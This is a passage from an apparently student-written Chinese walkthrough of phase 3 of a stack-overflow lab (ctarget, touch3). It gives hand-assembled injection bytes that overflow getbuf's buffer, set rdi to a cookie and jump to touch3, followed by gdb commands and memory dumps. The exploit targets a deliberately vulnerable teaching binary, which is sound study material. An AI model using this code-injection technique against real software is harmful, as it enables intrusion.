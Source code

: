 所以，我们意识到：

- 我们存在缓冲区的东西可能被清除
- 我们无法确定 `s` 的起始位置，也就无法修改它，只能修改 `sval`

好，我们首先类似 phase 2 的做法，得到了如下的代码 `p3.txt`，它实现：

- 溢出 `getbuf` 分配的 24 字节缓冲区 4 个字节，对于没有使用到的字节，使用 3f 填充加以区分
- 首先进行第一次 `ret`，跳转到我们的注入代码
- 修改 `rdi` 的值为 `0x11a67610`（也就是我们的 Cookie）
- 接着 `pushq 0x40207d`（`touch3` 的地址）
- `ret`，从而跳转进入 `touch3`

```asm
48 c7 c7 10 76 a6 11 68
7d 20 40 00 c3 3f 3f 3f
3f 3f 3f 3f 3f 3f 3f 3f
88 46 63 55
```

类似地，执行

```bash
./hex2raw < p3.txt > p3a.txt
```

获得输入的字符串

然后打开 gdb，依次输入：

```bash
gdb ctarget
b touch3
set args -i p3a.txt
r
layout asm
layout regs
```

成功进入 `touch3` 后，我们首先执行

```bash
x/20x 0x55634688
```

得到

```text
(gdb) x/20x 0x55634688
0x55634688:     0x10c7c748      0x6811a676      0x0040207d      0x3f3f3fc3
0x55634698:     0x3f3f3f3f      0x3f3f3f3f      0x00000000      0x00000000
0x556346a8:     0x00000009      0x00000000      0x00402818      0x00000000
0x556346b8:     0x00000000      0x00000000      0xf4f4f4f4      0xf4f4f4f4
0x556346c8:     0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4
```

可以发现此时我们放在缓冲区的内容还没有被修改，继续 `si`，直到进入 `hexmatch` 函数，继续执行完成 `sub $0x88,%rsp`，再次执行上述查看缓冲区的命令，得到

```text
(gdb) x/20x 0x55634688
0x55634688:     0x00404247      0x00000000      0x00000000      0x00000000
0x55634698:     0x0040209d      0x00000000      0x00000000      0x00000000
0x556346a8:     0x00000009      0x00000000      0x00402818      0x00000000
0x556346b8:     0x00000000      0x00000000      0xf4f4f4f4      0xf4f4f4f4
0x556346c8:     0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4
```
